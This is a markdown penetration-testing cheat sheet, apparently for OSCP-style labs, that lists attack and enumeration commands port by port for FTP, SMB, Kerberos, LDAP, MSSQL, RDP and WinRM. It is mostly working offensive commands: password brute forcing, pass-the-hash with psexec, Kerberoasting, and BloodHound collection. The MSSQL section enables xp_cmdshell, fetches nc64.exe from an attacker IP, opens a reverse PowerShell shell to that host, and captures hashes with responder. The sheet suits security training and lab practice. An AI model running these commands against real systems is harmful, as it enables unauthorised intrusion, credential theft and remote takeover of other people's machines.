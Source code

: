 ## Enumeration Checklist

\<set your variables\>
`target=`

`user=`

`pass=`

`ip=`

`domain=`

# 21 FTP

`hydra -l <user list> -P <password list> ftp://$ip`

common creds patterns

admin/admin
root/root
password/password
username/username


# 53 DNS

`dig @$ip version.bind CHAOS TXT`
`dig axfr @$ip $domain`     
`dnsenum $domain`

# 135 RCP

`rpcclient -U '' -N $ip`
`rpcclient -U '$user%$pass' $ip` 

`> enumdomusers      #check the users on the DC`
`> queryuser <username>  #query the details of the user`
`> querydispinfo`

`nmblookup -A $ip`

# 445 SMB

<Without Pass>

`enum4linux -a $ip`

`impacket-lookupsid $domain/$user@$domain -no-pass`

`smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares`

`smbclient -N -L //[ip]`

`smbclient //[ip]/[share] -N   #Enumerate Files`


<With Pass>
	
`lookupsid.py  $domain$user:$pass@$domain`

`lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2     #This oneliner will create a file with all the domain users`

`psexec.py -hashes  :<ntlm hash>    $user@$ip`

`smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r`

`smbclient //$ip/C$ -U '$user%$pass' -c 'dir'`

`netexec smb [host/ip] -u [user] -p [pass] --shares`

`netexec smb [host/ip] -u guest -p '' --shares`

`smbclient //[ip]/[share] -U [username] [password]`

`netexec smb -u [user] -p [pass] -M spider_plus`

`smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth`

`manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]`


# 88 Kerberoas

`nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip`

`kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid`

`impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200`

`impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100`

`kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt`

`kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100`


# 389 LDAP

<Without Pass>

`ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam" 

`ldapsearch -x -H ldap://$ip -s base namingcontexts`

`impacket-lookupsid '$domain/guest'@$domain -no-pass`

<With Pass>

`lookupsid.py  $domain/$user:$pass@$domain`
`ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts`

`bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip`
`neo4j console                #config file; /usr/share/neo4j/conf`
`./Bloodhound  --no-sandbox`


# 1433 MSSQL

`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth  #Windows login`
`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login`

`SELECT @@version   #Current MSSQL Version`
`SELECT DB_NAME()   #Current Database`
`SELECT name FROM sys.databases;  #show DBs`	
`enum_db            #show DBs`

`select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables`

#cmd command	

`EXEC sp_configure 'show advanced options', 1;`
`RECONFIGURE;`
`EXEC sp_configure 'xp_cmdshell', 1;`
`RECONFIGURE;`
`EXEC xp_cmdshell ' whoami /priv '`

`xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell`
`xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"`
`xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"`
	
hash capture

`xp_dirtree \\192.168.1.210\shared`
`responder -I tun0   #When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)`

`enum_impersonate  #impersonate`
`EXECUTE AS LOGIN = 'username to impersonate'  #impersonate`
`SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'  #impersonate`


<MSSQL Cheetsheet>

https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


# 3389 RDP

`xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard`

# 5985 WINRM

`evil-winrm -i $ip -u $user -p $pass`

